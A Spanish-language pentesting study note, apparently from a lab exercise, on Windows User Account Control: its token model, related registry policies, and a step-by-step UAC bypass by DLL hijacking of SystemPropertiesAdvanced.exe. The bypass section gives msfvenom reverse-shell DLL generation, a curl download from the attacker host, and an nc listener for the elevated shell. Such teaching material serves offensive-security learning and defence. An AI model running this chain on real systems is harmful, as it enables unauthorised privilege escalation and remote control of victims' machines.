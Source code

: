 
# Elevación de Privilegios en Windows - UAC (User Account Control)

## ¿Qué es el UAC?
User Account Control (UAC) es una característica de seguridad de Windows que muestra una solicitud de consentimiento cuando una aplicación intenta realizar tareas que requieren privilegios de administrador. Su propósito es proteger a los usuarios de cambios no autorizados en el sistema.

- Las aplicaciones se ejecutan con niveles de integridad distintos.
- Aunque estés en el grupo de administradores, tus procesos se ejecutan con un token no privilegiado hasta que confirmas la elevación.

## Cómo funciona el UAC
- Al iniciar sesión, se asignan dos tokens: uno estándar y uno privilegiado (si el usuario es administrador).
- Al ejecutar una aplicación con elevación, Windows muestra el prompt de UAC para usar el token privilegiado.

## Políticas de Grupo Relacionadas con UAC

| Configuración                                              | Clave de Registro             | Valor por defecto                         |
| ---------------------------------------------------------- | ----------------------------- | ----------------------------------------- |
| Admin Approval Mode para el admin por defecto              | `FilterAdministratorToken`    | Desactivado                               |
| Permitir que apps UIAccess se eleven sin escritorio seguro | `EnableUIADesktopToggle`      | Desactivado                               |
| Comportamiento del prompt para administradores             | `ConsentPromptBehaviorAdmin`  | Solicitar consentimiento                  |
| Comportamiento del prompt para usuarios estándar           | `ConsentPromptBehaviorUser`   | Solicitar credenciales                    |
| Detectar instalaciones y pedir elevación                   | `EnableInstallerDetection`    | Activado (home), Desactivado (enterprise) |
| Elevar solo ejecutables firmados                           | `ValidateAdminCodeSignatures` | Desactivado                               |
| Elevar solo apps UIAccess en ubicaciones seguras           | `EnableSecureUIAPaths`        | Activado                                  |
| Ejecutar admins en modo de aprobación                      | `EnableLUA`                   | Activado                                  |
| Cambiar al escritorio seguro al solicitar elevación        | `PromptOnSecureDesktop`       | Activado                                  |
| Virtualizar escritura en archivos y registro por usuario   | `EnableVirtualization`        | Activado                                  |

## Verificar si UAC está activado

```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
```
- `0x1` → UAC activado

También puedes revisar el nivel del prompt:

```cmd
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin
```
- `0x5` → Nivel más estricto: Siempre Notificar

## Bypass de UAC con DLL Hijacking

### Contexto
- Windows versión: 10.0.14393 (build 1607)
- Binario autoelevado vulnerable: `SystemPropertiesAdvanced.exe` de 32 bits
- Carga la DLL inexistente `srrstr.dll`

### Paso a paso

#### 1. Crear DLL maliciosa con reverse shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

#### 2. Subir DLL al sistema objetivo

```powershell
curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

#### 3. Ejecutar la DLL para probar conexión

```cmd
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

#### 4. Limpiar procesos previos

Ver todos los procesos rundell32.exe y con el comando `taskkill /PID <PID> /F ir cerrándolos.`

```cmd
tasklist /svc | findstr "rundll32"
taskkill /PID <PID> /F
```

#### 5. Ejecutar binario vulnerable

```cmd
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

#### 6. Shell obtenida (con privilegios elevados)

```bash
nc -lvnp 8443
```

Dentro de la shell:

```cmd
whoami
whoami /priv
```

> Verás privilegios elevados disponibles como `SeDebugPrivilege`, `SeBackupPrivilege`, `SeRestorePrivilege`, etc.

## Conclusión
El UAC no es una frontera de seguridad infalible, pero añade una capa de protección. Entender cómo funciona y cómo se puede evadir es clave para pentesters y defensores. Técnicas como DLL hijacking con binarios autoelevados son efectivas en versiones vulnerables de Windows.

## Recursos útiles

- [UACMe - Técnicas de bypass](https://github.com/hfiref0x/UACME)
- [Lista de builds de Windows y codenames](https://learn.microsoft.com/en-us/windows/release-health/release-information)
